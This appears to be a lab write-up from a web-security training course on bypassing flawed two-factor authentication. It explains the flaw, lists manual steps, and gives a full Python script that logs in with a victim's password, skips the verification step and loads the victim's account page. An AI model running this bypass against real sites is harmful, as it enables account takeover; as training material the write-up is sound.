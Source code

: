 # Bypassing two-factor authentication
---
Sometimes, the implementation of _two-factor authentication is flawed to the point where it can be bypassed entirely_.

- If the _user is first prompted to enter password, then, prompted to enter a verification code on a separate page_.
- The user is effectively in a "`logged in`" state before they have entered the verification code.
- Therefore, it is worth testing by directly skip to "`logged-in only`" pages after completing the first authentication step(_password_).
- **Some website doesn't actually check if the user complete or not the second step before loading the page**.

# Lab: 2FA simple bypass
---
1.  Log in to your own account. Your 2FA verification code will be sent to you by email. Click the **Email client** button to access your emails.
2.  Go to your account page and make a note of the URL.
3.  Log out of your account.
4.  Log in using the victim's credentials.
5.  When prompted for the verification code, manually change the URL to navigate to `/my-account`. The lab is solved when the page loads.

```python
#!/usr/bin/env python3
# 2FA simple bypass
# ------------------
# Not simple at all!
# To be fair, it is super simple if you do it manually
# But to create this, from `login` then `logout` then `login` again
# Pain in my ass! but I love it
import requests
import sys
import re
from bs4 import BeautifulSoup
from operator import itemgetter

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

MYUSER = "wiener"
MYPASS = "peter"

def get_email(url):
    try:
        req = requests.get(url, verify=False, proxies=p)
        soup = BeautifulSoup(req.text, "html.parser")
        email = soup.find('a', id='exploit-link')
        get_link = str(email).split()[2]
        cleaning = get_link.replace('href=','')
        result = cleaning.replace('"','')
        return result
    except IndexError:
        print("[+] You already solve the lab...     [congratz]")
        sys.exit(1)

def login_cookies(url, user, password):
    data = {'username':user, 'password':password}
    req = requests.post(url, data=data, verify=False, proxies=p, allow_redirects=False)
    cookies = str(req.cookies).split()[1]
    return cookies.replace('session=',"")

def get_code(url):
    req = requests.get(url, verify=False, proxies=p)
    re_code = re.search("([A-Za-z]+( [A-Za-z]+)+) [0-9]+", req.text)
    code = str(re_code).split()[8]
    return(code.replace("'>",""))

def login_with_code_get_cookies(url, code, cookies):
    data = {'mfa-code':code}
    c = {'session':cookies}
    req = requests.post(url, data=data, cookies=c, verify=False, proxies=p, allow_redirects=False)
    if "Internal Server Error" not in req.text:
        cookies_login2 = str(req.cookies).split()[1]
        location = req.headers['Location']
        return location, cookies_login2.replace('session=',"")
    else:
        return "[+] Status Code...   [{}]".format(req.status_code)
    
def get_param(url, location, cookies):
    newurl = url.replace('/login', location)
    c = {'session':cookies}
    req = requests.get(newurl, cookies=c, verify=False, proxies=p)
    soup = BeautifulSoup(req.text, "html.parser")
    scrape_header = soup.find('section', {"class": "top-links"})
    get_param = str(scrape_header).split()[5]
    cleaning = get_param.replace('href="',"")
    result = cleaning.replace('">My', "")
    return result

def just_logout(url, cookies):
    c = {'session':cookies}
    requests.get(url, cookies=c, verify=False, proxies=p, allow_redirects=False)

def get_page(url, param, cookies):
    c = {'session':cookies}
    req = requests.get(url.replace('/login',param), cookies=c, verify=False, proxies=p)
    soup = BeautifulSoup(req.text, "html.parser")

    # Your username is: <user>
    paragraph = soup.find(id='account-content')
    my_list = str(paragraph).split()
    index = [2,3,4,5]
    my_string = ' '.join(list(itemgetter(*index)(my_list)))
    cleaning = my_string.replace('<p>',"")
    result = cleaning.replace('</p>',"")
    return result

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        user = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <user> <passwords>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com/login admin password".format(sys.argv[0]))
        sys.exit(1)

    # get email link from `index` page
    email = get_email(url)
    print("[-] Get the email link...        [{}]".format(email))

    # login and get the cookies `/login`
    cookies_login = login_cookies(url, MYUSER, MYPASS)
    print("[-] Our valid user cookies...    [{}]".format(cookies_login))

    # get verification code from email
    code = get_code(email)
    print("[-] Retrieve the code...         [{}]".format(code))
 
    # login with the code at `/login2`
    # get the new cookies, and the location
    location, cookies_login2 = login_with_code_get_cookies(url.replace('/login','/login2'), code, cookies_login)
    print("[-] Get new cookies...           [{}]".format(cookies_login2))
    print("[-] Successfully login at...     [{}]".format(location))

    # get the `id` params
    params = get_param(url, location, cookies_login2)
    print("[-] Found the parameter...       [{}]".format(params))

    # logout from the session `wiener`
    logout = just_logout(url.replace('/login','/logout'), cookies_login2)
    print("[-] Logout from user...          [{}]".format(MYUSER))

    # login and get the `victim` cookies `/login`
    victim_cookies = login_cookies(url, user, password)
    print("[-] Login as victim...           [{}]".format(user))
    print("[-] Get the victim cookies...    [{}]".format(victim_cookies))

    # get page as the `victim`
    result  = get_page(url, params.replace(MYUSER, user), victim_cookies)
    print("[-] Successfully login as...     [{}]".format(result))
```
